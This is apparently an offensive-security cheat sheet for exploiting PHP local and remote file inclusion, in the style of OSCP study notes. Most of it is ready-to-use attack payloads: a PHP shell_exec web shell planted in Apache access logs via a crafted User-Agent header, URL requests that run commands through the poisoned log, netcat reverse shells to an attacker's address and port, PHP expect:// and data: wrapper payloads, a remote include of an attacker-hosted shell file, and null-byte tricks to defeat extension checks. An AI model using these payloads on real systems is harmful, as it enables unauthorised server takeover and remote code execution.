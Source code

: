 # File Inclusion

## Local File Inclusion

> The Local File Inclusion vulnerability allows an attacker to read a file from the vulnerable server (Directory Traversal), which occurs due to a programming error on the page. This vulnerability can lead the attacker to:
RCE, XSS, DOS...


Once identified a Directory Traversal vulnerability, we can try RCE using various techniques.
_____
### LFI Apache Poisoning Logs

#### Identifying Access log location

In order to execute this type of attack, it's crucial to identify the OS of the web server or the access log file location. Common Apache access file locations are:

* **RHEL/Red Hat/CentOS/Fedora Linux :** /var/log/httpd/access_log

* **FreeBSD Apache access log file location:** /var/log/httpd-access.log

* **Debian/Ubuntu Linux:** /var/log/apache2/access.log

* **Windows:** c:\xampp\apache\logs\access.log

#### Adding code in the log file

We can use nc or Burpsuite to create an invalid request that will be saved in the log file containing our payload:

```bash
#Connect to the server using Netcat and execute a bad request:
<?php echo '<pre>' . shell_exec($_GET['cmd']) . </pre>;?>
#Using Burpsuide, change User-Agent header like (insert in the middle):
User-Agent: Mozilla/5.0 <?php echo '<pre>' . shell_exec($_GET['cmd']) . </pre>;?> Gecko/210001310314 Firefox.....
```

#### RCE

Once the payload is in the log file it's time to search the file using the Directory Traversal vulnerability to find the log file and set a value to the "cmd" parameter which will execute system commands:

```bash
#Execute system commands (change $SYSTEMCOMMAND):
.php?file=c:\xampp\apache\logs\access.log&cmd=$SYSTEMCOMMAND
#Reverse shell using netcat:
.php?file=c:\xampp\apache\logs\access.log&cmd=nc.exe -e cmd.exe $IPADDRESS $PORT
```

#### Wrappers

PHP provides protocol ["wrappers"](https://www.php.net/manual/en/wrappers.php) that we can use to exploit Directory Traversal or LFI vulnerabilities.

```bash
.php?file=expect://whoami

.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

.php?page=data:text/plain;,<?php echo shell_exec("whoami");?>
```
 _____
 _____

## Remote File Inclusion

Same as LFI but referencing external scripts:

```bash
#Example:
.php?file=http://$IPADDRESS/$FILE.txt
#Content of $FILE can be (make the file with .txt extension but containing the php code inside):
<?php echo shell_exec("nc.exe $IPADDRESS $PORT -e cmd.exe") ?>
<?php echo shell_exec($_GET['cmd']) ?>
```

#### RCE

```bash
.php?file=http://$IPADDRESS/$FILE.txt&cmd=$COMMAND
```

_____

## Bypass file extensions

If there is a server side adding extensions to files (like .php), we can try to use Null byte (%00) or question mark (?) to bypass:

```bash
.php?file=http://$IPADDRESS/$FILE.txt%00
.php?file=http://$IPADDRESS/$FILE.txt?
```

[Awakened 1712 github](https://awakened1712.github.io/oscp/oscp-lfi-rfi/)
